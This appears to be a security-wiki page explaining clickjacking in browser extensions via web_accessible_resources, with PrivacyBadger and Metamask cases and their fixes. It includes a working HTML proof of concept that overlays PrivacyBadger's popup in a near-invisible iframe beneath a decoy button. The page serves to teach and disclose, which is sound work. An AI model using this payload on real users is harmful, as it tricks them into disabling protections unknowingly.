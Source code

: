 # BrowExt - ClickJacking





## Basic Information

This page is going to abuse a ClickJacking vulnerability in a Browser extension.\
If you don't know what ClickJacking is check:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Extensions contains the file **`manifest.json`** and that JSON file has a field `web_accessible_resources`. Here's what [the Chrome docs](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) say about it:

> These resources would then be available in a webpage via the URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, which can be generated with the **`extension.getURL method`**. Allowlisted resources are served with appropriate CORS headers, so they're available via mechanisms like XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

The **`web_accessible_resources`** in a browser extension are not just accessible via the web; they also operate with the extension's inherent privileges. This means they have the capability to:

* Change the extension's state
* Load additional resources
* Interact with the browser to a certain extent

However, this feature presents a security risk. If a resource within **`web_accessible_resources`** has any significant functionality, an attacker could potentially embed this resource into an external web page. Unsuspecting users visiting this page might inadvertently activate this embedded resource. Such activation could lead to unintended consequences, depending on the permissions and capabilities of the extension's resources.

## PrivacyBadger Example

In the extension PrivacyBadger, a vulnerability was identified related to the `skin/` directory being declared as `web_accessible_resources` in the following manner (Check the original [blog post](https://blog.lizzie.io/clickjacking-privacy-badger.html)):

```json
"web_accessible_resources": [
  "skin/*",
  "icons/*"
]
```

This configuration led to a potential security issue. Specifically, the `skin/popup.html` file, which is rendered upon interaction with the PrivacyBadger icon in the browser, could be embedded within an `iframe`. This embedding could be exploited to deceive users into inadvertently clicking on "Disable PrivacyBadger for this Website". Such an action would compromise the user's privacy by disabling the PrivacyBadger protection and potentially subjecting the user to increased tracking. A visual demonstration of this exploit can be viewed in a ClickJacking video example provided at [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

To address this vulnerability, a straightforward solution was implemented: the removal of `/skin/*` from the list of `web_accessible_resources`. This change effectively mitigated the risk by ensuring that the content of the `skin/` directory could not be accessed or manipulated through web-accessible resources.

The fix was easy: **remove `/skin/*` from the `web_accessible_resources`**.

### PoC

```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
    width: 430px;
    height: 300px;
    opacity: 0.01;
    float: top;
    position: absolute;
}

#stuff {
    float: top;
    position: absolute;
}

button {
    float: top;
    position: absolute;
    top: 168px;
    left: 100px;
}

</style>

<div id="stuff">
    <h1>
    Click the button
    </h1>
    <button id="button">
      click me
    </button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```

## Metamask Example

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In this case, Metamask fixed the vulnerability by checking that the protocol used to access it was **`https:`** or **`http:`** (not **`chrome:`** for example):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Another ClickJacking fixed** in the Metamask extension was that users were able to **Click to whitelist** when a page was suspicious of being phishing because of `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. As that page was vulnerable to Clickjacking, an attacker could abuse it showing something normal to make the victim click to whitelist it without noticing, and then going back to the phishing page which will be whitelisted.

## Steam Inventory Helper Example

Check the following page to check how a **XSS** in a browser extension was chained with a **ClickJacking** vulnerability:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## References

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)




